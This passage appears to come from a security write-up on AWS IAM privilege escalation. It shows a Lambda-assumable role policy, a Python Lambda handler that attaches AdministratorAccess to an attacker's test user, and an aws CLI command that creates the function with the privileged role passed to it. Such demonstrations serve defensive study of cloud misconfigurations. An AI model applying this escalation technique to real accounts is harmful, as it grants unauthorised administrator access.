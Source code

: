 In addition, the AWS account contains a role that can be assumed by the Lambda service, and which includes the iam:AttachUserPolicy, dynamodb:GetRecords, dynamodb:GetShardIterator, dynamodb:DescribeStream, and dynamodb:ListStreams permissions:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
            "dynamodb:GetShardIterator",
            "iam:AttachUserPolicy",
            "dynamodb:DescribeStream",
            "dynamodb:GetRecords"
            ],
            "Resource": [
                "arn:aws:dynamodb:*:*:table/*/stream/*",
                "arn:aws:iam::*:user/*"
            ]
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": "dynamodb:ListStreams",
            "Resource": "*"
        }
    ]
}
```

Finally, the AWS account also contains a suitable DynamoDB table for the exploit. Note that in the policy applied to the attacker's group, the attacker does not have any DynamoDB permissions.

To initiate the privilege escalation exploit, the attacker first creates some code that, when executed, will attach the Administrator policy to the attacker's user account:

`code.py`

```python
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(UserName='privesc_test',PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
    return response
```

The attacker then zips up the code file and creates a new lambda function. In the AWS command below, the attacker passes the lambda role with the necessary permissions to the function. In addition, note that the handler is the name of the python file minus the extension, followed by the defined function.

```bash
➜ aws lambda create-function --function-name privesc16 --runtime python3.6 --role arn:aws:iam::[REDACTED]:role/privesc16lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-west-2 --profile privesc
```
